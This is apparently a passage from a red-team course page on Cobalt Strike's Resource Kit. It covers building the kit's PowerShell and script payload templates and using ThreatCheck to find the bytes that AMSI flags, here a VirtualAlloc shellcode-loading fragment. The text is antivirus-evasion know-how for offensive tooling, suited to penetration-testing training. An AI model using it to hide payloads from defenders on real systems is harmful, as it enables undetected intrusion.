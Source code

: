 # Resource Kit

The other type of stage0 template that Cobalt Strike provides are for script-based payloads such as PowerShell.  Where the artifact kit is used to modify the compiled templates, the resource kit is used to modify the script templates.  [AMSI](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) is the primary concern when it comes to PowerShell because it can detect scripts running in memory.

Let's begin by generating a new set of resources without changing anything. The build script for the resource kit only requires an output directory.

```bash
attacker@DESKTOP-FGSTPS7:/mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource$ ./build.sh /mnt/c/Tools/cobaltstrike/custom-resources
[Resource Kit] [+] Copy the resource files
[Resource Kit] [+] Generate the resources.cna from the template file.
[Resource Kit] [+] The resource kit files are saved in '/mnt/c/Tools/cobaltstrike/custom-resources'
```

```batch
PS C:\Tools\cobaltstrike\custom-resources> ls

    Directory: C:\Tools\cobaltstrike\custom-resources

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        19/03/2025     13:24            205 compress.ps1
-a----        19/03/2025     13:24           6691 resources.cna
-a----        19/03/2025     13:24            830 template.exe.hta
-a----        19/03/2025     13:24           2719 template.hint.x64.ps1
-a----        19/03/2025     13:24           2835 template.hint.x86.ps1
-a----        19/03/2025     13:24            197 template.psh.hta
-a----        19/03/2025     13:24            635 template.py
-a----        19/03/2025     13:24           1017 template.vbs
-a----        19/03/2025     13:24           2362 template.x64.ps1
-a----        19/03/2025     13:24           2482 template.x86.ps1
-a----        19/03/2025     13:24           3856 template.x86.vba
```

#### template.x64.ps1 <a href="#el_1742391777539_552" id="el_1742391777539_552"></a>

This template is used to generate 64-bit stageless PowerShell payloads for workflows such as `jump winrm64`.  Scanning it with TheatCheck's AMSI engine shows that it gets detected even without weaponised shellcode being patched into it.

```batch
PS C:\Tools\cobaltstrike\custom-resources> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\template.x64.ps1 -e amsi
[+] Target file size: 2364 bytes
[+] Analyzing...
[!] Identified end of bad bytes at offset 0x85B
0000075B   28 66 75 6E 63 5F 67 65  74 5F 70 72 6F 63 5F 61   (func_get_proc_a
0000076B   64 64 72 65 73 73 20 6B  65 72 6E 65 6C 33 32 2E   ddress kernel32.
0000077B   64 6C 6C 20 56 69 72 74  75 61 6C 41 6C 6C 6F 63   dll VirtualAlloc
0000078B   29 2C 20 28 66 75 6E 63  5F 67 65 74 5F 64 65 6C   ), (func_get_del
0000079B   65 67 61 74 65 5F 74 79  70 65 20 40 28 5B 49 6E   egate_type @([In
000007AB   74 50 74 72 5D 2C 20 5B  55 49 6E 74 33 32 5D 2C   tPtr], [UInt32],
000007BB   20 5B 55 49 6E 74 33 32  5D 2C 20 5B 55 49 6E 74    [UInt32], [UInt
000007CB   33 32 5D 29 20 28 5B 49  6E 74 50 74 72 5D 29 29   32]) ([IntPtr]))
000007DB   29 0A 09 24 76 61 72 5F  62 75 66 66 65 72 20 3D   )..$var_buffer =
000007EB   20 24 76 61 72 5F 76 61  2E 49 6E 76 6F 6B 65 28    $var_va.Invoke(
000007FB   5B 49 6E 74 50 74 72 5D  3A 3A 5A 65 72 6F 2C 20   [IntPtr]::Zero,
0000080B   24 76 5F 63 6F 64 65 2E  4C 65 6E 67 74 68 2C 20   $v_code.Length,
0000081B   30 78 33 30 30 30 2C 20  30 78 34 30 29 0A 09 0A   0x3000, 0x40)...
0000082B   09 5B 53 79 73 74 65 6D  2E 52 75 6E 74 69 6D 65   .[System.Runtime
```